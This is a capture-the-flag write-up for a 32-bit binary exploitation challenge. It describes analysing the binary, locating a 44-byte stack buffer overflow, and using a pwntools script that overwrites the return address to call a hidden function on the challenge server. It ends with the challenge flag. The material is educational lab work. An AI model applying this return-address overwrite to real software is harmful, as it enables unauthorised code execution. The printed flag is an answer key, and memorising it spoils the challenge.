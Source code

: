 # !Kogarashi Café - The First Visit  

**Category:** Binary Exploitation 

A simple binary exploitation challenge involving a buffer overflow to hijack execution flow.  

---

### Challenge  

**Provided File:** `first_visit`  

---

## Overview  

1. **Analyzing the Binary**  
   - Use `file first_visit` to determine the binary type:
     ```sh
     ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=ddf24eef326cd1ee996fc66f78c48a6eab6d9b87, not stripped
     ```
   - Run `strings first_visit` to find readable text inside:
     ```sh
     Barista: 'Strange... the recipe is missing.
     ```
   - Disassemble the binary using `objdump`:
     ```sh
     objdump -d first_visit > disassembly.txt
     ```
   - Load the binary in **Ghidra** or **Binary Ninja** to reverse-engineer its logic.  

2. **Identifying the Vulnerability**  
   - The binary contains a **buffer overflow vulnerability**, allowing us to overwrite the return address.
   - The function `brew_coffee()` is present in the binary but not called directly.
   - Our goal is to overwrite the return address with the function’s address to execute it.  

---

## Steps to Exploit  

1. **Check Binary Properties**  
   ```sh
   file first_visit  
   checksec --file=first_visit  
   strings first_visit  
   ```

2. **Reverse Engineer the Binary**  
   - Load in **Ghidra** or **Binary Ninja** to analyze the functions.
   - Identify the address of `brew_coffee()` from the disassembly.  

3. **Exploit Buffer Overflow**  
   - Determine the correct buffer overflow offset (44 bytes).
   - Overwrite the return address with the address of `brew_coffee()` to gain control.  

---

## Exploit Script  

```python
from pwn import *

# Connect to the remote challenge
p = remote('chals1.apoorvctf.xyz', 3001)

# Determine the offset (e.g., 44 bytes) and use the correct address of brew_coffee()
offset = 44
brew_coffee_addr = p32(0x0804856b)  # Using the address from disassembly

payload = b'A' * offset + brew_coffee_addr

p.sendline(payload)
p.interactive()
```

---

## Extracted Flag  

```
apoorvctf{c0ffee_buff3r_sp1ll}
```
